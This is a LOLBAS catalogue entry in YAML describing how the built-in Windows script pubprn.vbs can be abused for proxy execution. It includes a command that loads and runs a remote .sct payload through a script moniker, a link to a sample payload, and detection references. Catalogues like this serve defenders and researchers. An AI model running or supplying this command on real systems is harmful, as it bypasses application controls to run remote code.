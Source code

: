 ```yaml
---
Name: Pubprn.vbs
Description: Proxy execution with Pubprn.vbs
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: pubprn.vbs 127.0.0.1 script:{REMOTEURL:.sct}
    Description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1216.001
    OperatingSystem: Windows 10
    Tags:
      - Execute: SCT
Full_Path:
  - Path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  - Path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
Code_Sample:
  - Code: https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSScripts/Payload/Pubprn_calc.sct
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff5102832031425f6eed011dd3a2e62653008c94/rules/windows/process_creation/proc_creation_win_lolbin_pubprn.yml
Resources:
  - Link: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  - Link: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  - Link: https://github.com/enigma0x3/windows-operating-system-archaeology
Acknowledgement:
  - Person: Matt Nelson
    Handle: '@enigma0x3'
---
```


